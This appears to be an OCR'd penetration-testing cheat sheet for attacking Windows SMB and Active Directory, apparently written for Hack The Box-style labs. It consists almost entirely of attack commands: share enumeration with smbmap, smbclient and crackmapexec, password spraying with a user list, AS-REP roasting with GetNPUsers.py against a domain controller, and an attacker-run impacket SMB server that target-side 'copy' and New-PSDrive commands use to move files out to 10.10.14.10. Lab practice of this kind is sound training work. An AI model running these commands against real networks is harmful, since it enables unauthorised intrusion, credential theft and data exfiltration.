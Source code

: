 smbmap -H TARGET -u 'ANYUSER' #listing SMB  
smbmap -H TARGET -u '' -p '' #listing SMB  
smbmap -u USER -p 'PASSWORD' -d DOMAIN -H TARGETIP  
smbclient -L //TARGET #listing SMB   
smbclient //TARGET/FOLDER #view SMB  
crackmapexec smb TARGET #info SMB  
crackmapexec smb TARGET --shares #listing SMB  
crackmapexec smb TARGET --pass-pol #info SMB  
crackmapexec smb TARGET --shares -u ANYUSER -p ANYPASS #listing SMB  
crackmapexec smb TARGET -u users.txt -p password --continue-on-success #brute users without stop  
  
/usr/share/doc/python3-impacket/examples/GetNPUsers.py -dc-ip 10.10.10.161 -request 'htb.local/'  
  
?###############################################################################################  
ON KALI$ sudo impacket-smbserver -smb2support SHARENAME $(pwd)  
ON TARGET$ copy FILENAME \\10.10.14.10\SHARENAME\FILENAME  
  
  
ON KALI$ impacket-smbserver Name $(pwd) -smb2support -u sysrq -pasword 1234321   
ON TARGET$ $pass = convertto-securestring '1234321' -AsPlainText -Force  
ON TARGET$ $pass  
ON TARGET$ $cred = New-Object System.Management.Automation.PSCredential('sysrq', $pass)  
ON TARGET$ $cred  
ON TARGET$ New-PSDrive -Name sysrq -PSProvider FileSystem -Credential $cred -Root \\KALIIP\Name  
################################################################################################  
apt install cifs-utils #fs packet  
sudo mount -t cifs /TARGET/FOLDER /mnt/LOCAL/FOLDER #mount share localy(make existing dir before mounting)  
sudo mount -t cifs -o 'username=USER,password=PASS' //TARGET/FOLDER /mnt/LOCAL/FOLDER  
find . -ls -type f #file listing  
sudo umount /mnt/LOCAL/FOLDER #unmount share  
cat /folder/file.format | iconv -f UTF-16LE -t utf-8 #decoding file  
  
##################################################################################  
pip install bloodhound  
  
sudo nbtscan -r TARGET/RANGE  
  
ls -l /usr/share/nmap/scripts/smb* (smb-vuln*)  
nmap -v -p 139,145 --script=smb-os-discovery TARGET